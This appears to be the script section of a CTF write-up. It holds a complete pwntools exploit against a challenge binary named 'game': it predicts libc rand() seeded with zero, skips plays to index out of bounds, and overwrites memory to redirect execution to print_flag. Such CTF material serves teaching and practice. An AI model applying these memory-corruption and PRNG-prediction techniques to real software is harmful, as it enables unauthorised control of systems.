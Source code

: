 ## Full script

```python
from pwn import *
context.binary = 'game'
from ctypes import CDLL
clib = CDLL('libc.so.6')
clib.srand(0)
ARRAY_OF_PLAYS_MAXSIZE = 170
array_of_plays = [clib.rand()%3 for _ in range(ARRAY_OF_PLAYS_MAXSIZE)]
current_play = 0

r = remote('cop.ichsa.ctf.today', 8011)
def choose(opt: int):
    r.recvuntil('[ ]\b\b')
    r.sendline(str(opt))
def win_round():
    global current_play
    choose(2)
    r.recvuntil('[ ]\b\b')
    cpu_play = array_of_plays[current_play]
    current_play += 1
    user_play = {0:1, 1:2, 2:0}[cpu_play]+1
    r.sendline(str(user_play))
def skip(n: int):
    choose(3)
    r.recvuntil('[  ]\b\b\b')
    r.sendline(str(n))
for i in range(5): win_round()

OFFSET_TO_NAME = 0xd018
SIZEOF_PLAY = 24
while current_play < OFFSET_TO_NAME//SIZEOF_PLAY:
    toskip = min([255, (OFFSET_TO_NAME-current_play*SIZEOF_PLAY)//SIZEOF_PLAY+1])
    current_play += toskip
    skip(toskip)

choose(5) # change username
r.recvuntil('new username: ')
fakeplay = p32(1) + b'a'*10 + pack(context.binary.symbols['print_flag']+0x66) + pack(1)
r.sendline(b'a'*(current_play*SIZEOF_PLAY-OFFSET_TO_NAME)+fakeplay)
choose(4) # enable ascii art
choose(2) # win
r.recvuntil('[ ]\b\b')
r.sendline('1')
print(r.recvall())
```

